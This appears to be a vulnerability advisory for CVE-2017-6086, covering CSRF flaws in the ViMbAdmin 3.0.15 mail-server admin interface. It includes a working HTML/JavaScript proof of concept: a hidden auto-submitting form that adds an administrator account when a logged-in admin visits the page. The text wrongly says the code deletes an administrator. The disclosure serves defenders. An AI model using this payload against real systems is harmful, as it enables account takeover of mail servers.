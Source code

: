 # [CVE-2017-6086] Multiple CSRF vulnerabilities in ViMbAdmin version 3.0.15

## Product Description

ViMbAdmin is a web-based interface used to manage a mail server with virtual domains, mailboxes and aliases. It is an open source solution developed by Opensolutions and distributed under the GNU/GPL license version 3. The official web site can be found at http://www.vimbadmin.net and the source code of the application is available on github https://github.com/opensolutions.

## Details

**CVE ID**: CVE-2017-6086

**Access Vector**: remote

**Security Risk**: high

**Vulnerability**: CWE-352

**CVSS Base Score**: 8.8

**CVSS vector**: CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H

## Proof of concept

### Add administrator user

#### Exploit

The following html/javascript code allows to delete an administrator user. It needs to be visited by a logged administrator of the targeted ViMbAdmin application.

```html
<head>
<title>CSRF ViMbAdmin</title>
</head>
<body>


<iframe style="display:none" name="csrf-frame"></iframe>
<form id="csrf-form" action="http://<target ip>/admin/add" method="POST" target="csrf-frame" >
<input type="text" name="user" value="target@email" >
<input type="text" name="password" value="newpassword" >
</form>


<script>document.getElementById("csrf-form").submit()</script>

</body>

```
